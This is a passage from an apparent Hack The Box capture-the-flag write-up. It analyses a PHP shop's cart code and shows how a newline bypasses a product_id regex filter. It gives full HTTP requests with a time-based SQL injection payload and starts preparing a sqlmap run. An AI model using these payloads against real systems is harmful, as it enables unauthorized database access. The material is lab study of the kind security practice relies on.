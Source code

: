 Uhmmm, `$product_id` and `$quantity` are guarded from regexes. But `$_POST['product_id']` is embedded directly in the query without using prepare statements. If the regex is bypassed this could lead to `SQLI`.

Let's analyze `product_id` regex

```
^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$
```

The regex filters for any char except for numbers. Actually it cheks if the string ends with a number and it ensure that before the latest digits there aren't any other alphanumeric characters. So it should ensure that only numbers should be accepted.
The problem is that the operator `.*` used, do not match for lines terminators. This is a common problem in regexes which affects every language and so with the help of `regex101.com` you can check that doing a newline and inserting a payload wich ends with a number, bypasses the regex.

```

test1
```

We can effectively check for the sql injection with something like this

```http
POST /shop/index.php?page=cart HTTP/1.1
Host: 10.10.11.229
Content-Length: 74
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.229
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.229/shop/index.php?page=product&id=2
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=im3krcd3emfm96hir41b6tmb1d
Connection: close

quantity=1&product_id=%0D%0A'/**/or/**/(select/**/sleep(3))/**/and+1=1--+1
```

The server sleeps a random time actually, but the sql injection is quite confirmed anyway. I think this was intented by htb servers to prevent the excessive use of automatic scanners for finding vulnerabilities. Comments between instructions are not actually needed. The only way this can be exploited is using `time based` payloads, but the server seems to overcompicate this and sleeps a random time when sleep statemet is used. Let's try anyway to enumerate something with `sqlmap`. From burpsuite save `request.txt` inserting a custom placeholder:


```
POST /shop/index.php?page=cart HTTP/1.1
Host: 10.10.11.229
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.229
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.229/shop/index.php?page=product&id=2
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=im3krcd3emfm96hir41b6tmb1d
```